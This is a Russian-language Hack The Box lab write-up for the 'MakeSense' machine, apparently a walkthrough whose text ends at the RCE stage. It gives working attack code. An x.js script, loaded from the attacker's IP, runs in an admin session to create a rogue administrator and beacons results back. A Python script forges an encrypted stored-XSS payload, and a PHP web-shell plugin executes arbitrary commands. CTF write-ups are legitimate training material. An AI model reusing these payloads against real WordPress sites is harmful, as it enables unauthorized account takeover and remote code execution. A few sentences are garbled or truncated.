---

title: "Hack The Box: MakeSense"
tags: [htb, writeup, linux, web, xss, rce, privilege-escalation, cryptography, wordpress]
date: 2026-10-22
difficulty: Medium
target_ip: 10.129.246.24
attacker_ip: 10.10.17.178

---



# MakeSense

> **Дата:** 22.10.2026  
> **Целевой IP:** `10.129.246.24`  
> **Атакующий IP:** `10.10.17.178`  
> **Сложность:** Medium  
> **Платформа:** Hack The Box

В ходе выполнения лабораторной работы по тестированию на проникновение (HTB MakeSense) была обнаружена и успешно эксплуатирована цепочка уязвимостей, приведшая к полному компрометированию системы. Основной вектор атаки — **Stored XSS** в кастомной теме WordPress, возникшая из-за жёстко закодированного ключа шифрования в клиентском JavaScript. Это позволило подделать зашифрованный пейлоад и выполнить произвольный JavaScript в сессии администратора, создав новую учётную запись администратора. Далее, через загрузку вредоносного плагина, был получен **RCE** от имени `www-data`. Повышение привилегий до **root** выполнено через эксплуатацию внутреннего OCR-сервиса, работающего от имени суперпользователя.
**Ключевые уязвимости:**
- **Hardcoded AES-GCM Key** в `whisper-wrapper.js` (нарушение конфиденциальности и аутентификации).
- **Stored XSS** в поле `summary` (отсутствие экранирования при выводе в админ-панели).
- **Credential Reuse** (пароль MySQL = пароль SSH = пароль HTTP Basic Auth).
- **Arbitrary File Write as Root** в OCR-сервисе на порту `8001`.

---

## Разведка и анализ поверхности атаки

Первоначальное сканирование выявило веб-сервер на порту 443 (HTTPS). Анализ содержимого и перебор директорий показали, что сайт работает на **WordPress 7.0** с кастомной темой `webagency`. Порт `8001` был отфильтрован снаружи, что указывает на внутренний сервис.

```bash
nmap -A 10.129.246.24
```



_Сканирование портов и определение версий сервисов на целевой машине._

```bash
echo "10.129.246.24 makesense.htb" | sudo tee -a /etc/hosts
```

_Добавление записи в локальный файл hosts для привязки доменного имени к IP-адресу цели._


### Анализ технологического стека

С помощью Wappalyzer и ручного анализа были идентифицированы:



- Wappalyzer 
- Apache 
- MySql
- Squery

```
wpscan --url https://makesense.htb \
  --disable-tls-checks \
  --force \
  --enumerate u,vp,vt,cb,dbe \
  --random-user-agent
```

_WPScan выявил пользователей `admin`, `walter`, `jake`, а также уязвимости ядра WordPress. Однако наиболее интересной оказалась кастомная тема `webagency`._

`--enumerate u,vp,vt,cb,dbe` указаны категории перечисления:

- `u` — поиск идентификаторов пользователей WordPress.
- `vp` — обнаружение плагинов с известными уязвимостями.
- `vt` — обнаружение тем с известными уязвимостями.
- `cb` — поиск резервных копий конфигурации.
- `dbe` — поиск доступных дампов базы данных.

Остальные параметры 

`--disable-tls-checks` отключает проверку TLS-сертификата
`--force` принудительно продолжает сканирование
`--random-user-agent` меняет User-Agent запросов.



### Перебор директорий с dirsearch

```bash
dirsearch -u https://makesense.htb/     
```



Был обнаружен каталог для загрузки — `https://makesense.htb/wp-content/uploads/2026/01/`, в котором отображается список файлов, включая аудиофайл. Этот каталог не содержит уязвимостей, но подтверждает наличие функционала загрузки файлов.

### каталог для загрузки — Аудиофайл

kesense.htb/wp-content/uploads/2026/01/`Отображает список файлов в каталоге:



### Поиск публичных эксплойтов

```bash
searchsploit wordpress 7.0
```



Публичных эксплойтов для WordPress 7.0, которые были бы применимы к данной цели, не найдено. Уязвимость кроется в кастомной теме, поэтому её предстоит найти вручную.

## Изучение клиентского JavaScript




При просмотре сайта была замечена кнопка для записи голосовых сообщений. Открыв вкладку «Сеть» в DevTools и перезагрузив страницу, я обнаружил скрипт `whisper-wrapper.js`, отвечающий за преобразование речи в текст.






```javascript
const ENCRYPTION_KEY = 'bLs6z8iv3gWpsvyeabFosDjb4YQe7jdU13rI';
```

Анализ метода `encryptPayload()` показал, что ключ используется для AES-GCM шифрования JSON-пейлоада с полями `transcription` и `summary`. Ключ вычисляется как SHA-256 от строки, а результат кодируется в Base64 вместе с 12-байтовым IV.

### Анализ main.js

Изучив `main.js`, я нашёл, что для отправки данных используется AJAX-запрос к `admin-ajax.php` с действием `save_voice_results`. Параметр `nonce` берётся из глобальной переменной `webagency_ajax.nonce`, которая встроена в HTML-страницу.



**Сохранение зашифрованных результатов**



**Сохранение зашифрованных результатов:**

На главной странице в исходном коде был найден `nonce`:



```javascript
var webagency_ajax = {"ajax_url":"https://makesense.htb/wp-admin/admin-ajax.php","nonce":"570ec1a119",...};
```

**Nonce:** `570ec1a119`

Этих данных достаточно для эксплуатации.

--------
## Эксплуатация: Stored XSS → Администратор

### Подготовка внешнего JavaScript

Для обхода возможных ограничений на длину inline-скриптов был создан внешний файл `x.js`, который загружается с нашей машины и выполняет создание администратора, используя сессию бота.

```javascript
// x.js
(async () => {
    function ping(url) {
        try { new Image().src = url; } catch(e) {}
    }

    try {
        const r = await fetch('/wp-admin/user-new.php', { credentials: 'include' });
        const html = await r.text();
        const m = html.match(/id="_wpnonce_create-user"[^>]*value="([a-f0-9]+)"/);
        if (!m) {
            ping('http://10.10.17.178:8000/debug?step=nonce_missing');
            return;
        }
        const nonce = m[1];
        ping(`http://10.10.17.178:8000/debug?step=nonce_found&n=${nonce}`);

        const body = new URLSearchParams();
        body.set('action', 'createuser');
        body.set('_wpnonce_create-user', nonce);
        body.set('_wp_http_referer', '/wp-admin/user-new.php');
        body.set('user_login', 'pwn');
        body.set('email', 'pwn@test.com');
        body.set('pass1', 'Pwn123!');
        body.set('pass1-text', 'Pwn123!');
        body.set('pass2', 'Pwn123!');
        body.set('pw_weak', '1');
        body.set('role', 'administrator');
        body.set('createuser', 'Add New User');

        const r2 = await fetch('/wp-admin/user-new.php', {
            method: 'POST',
            credentials: 'include',
            headers: { 'Content-Type': 'application/x-www-form-urlencoded' },
            body: body.toString(),
            keepalive: true
        });

        ping(`http://10.10.17.178:8000/done?status=${r2.status}`);
    } catch (e) {
        ping(`http://10.10.17.178:8000/err?msg=${encodeURIComponent(e.message)}`);
    }
})();
```

Логин: `pwn`  
Email: `pwn@test.com`  
Пароль: `Pwn123!`

Запускаем HTTP-сервер в директории с `x.js`:

```python
python3 -m http.server 8000
```

### Отправка XSS-пейлоада

Был написан Python-скрипт, который шифрует короткий пейлоад `<script src="http://10.10.17.178:8000/x.js"></script>` и отправляет его на сервер.

```python
import hashlib, os, json, base64, requests, urllib3
urllib3.disable_warnings()

BASE = "https://makesense.htb"
NONCE = "570ec1a119"  # ваш nonce
LHOST = "10.10.17.178"  # VPN IP

def encrypt(payload):
    from cryptography.hazmat.primitives.ciphers.aead import AESGCM
    key = hashlib.sha256(b"bLs6z8iv3gWpsvyeabFosDjb4YQe7jdU13rI").digest()
    iv = os.urandom(12)
    ct = AESGCM(key).encrypt(iv, json.dumps(payload).encode(), None)
    return base64.b64encode(iv + ct).decode()

# Шаг A: Получаем post_id
r = requests.post(f"{BASE}/wp-admin/admin-ajax.php", data={
    "action": "submit_contact_form",
    "nonce": NONCE,
    "name": "test",
    "email": "test@test.com",
    "phone": "1",
    "message": "hello"
}, verify=False)
POST_ID = r.json()['data']['post_id']
print(f"[*] post_id = {POST_ID}")

# Шаг B: Отправляем XSS пейлоад с внешним скриптом
payload = {
    "transcription": f'<script src="http://{LHOST}:8000/x.js"></script>',
    "summary": "test"
}
r = requests.post(f"{BASE}/wp-admin/admin-ajax.php", data={
    "action": "save_voice_results",
    "nonce": NONCE,
    "post_id": str(POST_ID),
    "encrypted_payload": encrypt(payload),
}, verify=False)
print(f"[*] {r.status_code}: {r.text}")
```

Запускаем скрипт:

```python
python3 exploit.py
```



_Сервер подтвердил сохранение пейлоада (`Results saved successfully!`). Через несколько минут в логах HTTP-сервера появились запросы от бота, подтверждающие выполнение XSS._

### Вход в административную панель

После выполнения XSS был создан пользователь `pwn` с паролем `Pwn123!`. При входе WordPress запросил подтверждение email администратора (стандартная проверка). После подтверждения открылся доступ к дашборду.





--------------

## Получение RCE через вредоносный плагин

С правами администратора можно загрузить произвольный PHP-код в виде плагина. Был создан минималистичный плагин `simple-shell`.с есть права администратора, и вы можете загрузить вредоносный плагин.

```php
mkdir -p simple-shell
cat > simple-shell/simple-shell.php << 'EOF'
<?php
/*
Plugin Name: Simple Shell
*/
if (isset($_GET['cmd'])) {
    echo '<pre>';
    system($_GET['cmd']);
    echo '</pre>';
    exit;
}
EOF
zip -r simple-shell.zip simple-shell/
  adding: simple-shell/ (stored 0%)
  adding: simple-shell/simple-shell.php (deflated 24%)
```





